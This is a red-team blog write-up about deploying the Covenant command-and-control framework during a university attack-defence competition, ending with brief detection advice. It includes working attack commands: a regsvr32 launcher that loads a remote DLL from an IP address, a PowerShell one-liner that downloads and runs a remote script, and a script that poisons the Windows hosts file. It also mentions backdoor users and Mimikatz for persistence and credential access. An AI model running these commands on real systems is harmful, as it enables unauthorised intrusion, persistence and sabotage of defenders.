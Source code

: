 ```yaml
---
title: Power of Covenant
author: NotoriousRebel
date: 2019-05-01
hero: ./images/pwnboard_image.PNG
excerpt: Deploying Covenant
---
```

# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](./images/plan.PNG)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

<div className="Image__Medium">
  <img src="./images/easy_deployment.png" alt="Easy-Deployment" />
  <h4 >Docker commands to run to covenant </h4>
</div>


In reality we would want to tack on -d when composing Covenant
to background it. 
Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

<div className="Image__Medium">
  <img src="./images/launcher.png" alt="Launcher" />
  <h4 >Using regsvr32 as our launcher </h4>
</div>

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](./images/example_powershell.PNG)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](./images/pwnboard.PNG)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](./images/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](./images/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](./images/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](./images/procexp_regsvr.PNG)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](./images/http_traffic.PNG)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](./images/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)

